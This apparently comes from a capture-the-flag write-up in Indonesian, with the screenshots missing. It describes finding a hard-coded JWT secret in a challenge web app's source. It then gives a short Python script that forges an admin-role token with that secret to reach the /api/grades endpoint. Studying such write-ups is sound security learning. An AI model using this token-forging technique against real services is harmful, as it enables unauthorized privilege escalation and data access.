





## Analisa

Di challenge ini diberikan sebuah web service, dengan tampilan seperti berikut:





Lalu,gw melihat source-code daripada website tersebut, dan gw menemukan:





dan gw nemuin something di `lib/constants.js` yaitu jwt secret/key





dan  ini di `app.js`:





## Solve

Dengan apa yang sudah kita temukan, yaitu JWT Key, kita bisa langsung bisa craft JWT dengan role nya itu “Admin”, berikut script python untuk craft JWT nya

```py
import jwt
import time

SECRET = 'r0bl0x_n00b_h4x0r_g3t_r3kt_m8_42069'

payload = {
    "userId": "b83b8802-15ac-4629-b6f7-197541a029c0",
    "username": "baradika",
    "role": "admin",
    "nim": "000000000", 
    "nama": "baradika",
    "iat": int(time.time()),
    "exp": int(time.time()) + (8 * 60 * 60)
}

token = jwt.encode(payload, SECRET, algorithm='HS256')
print(token)
```

Lalu pakai new JWT baru nya dan hit endpoint `/api/grades`


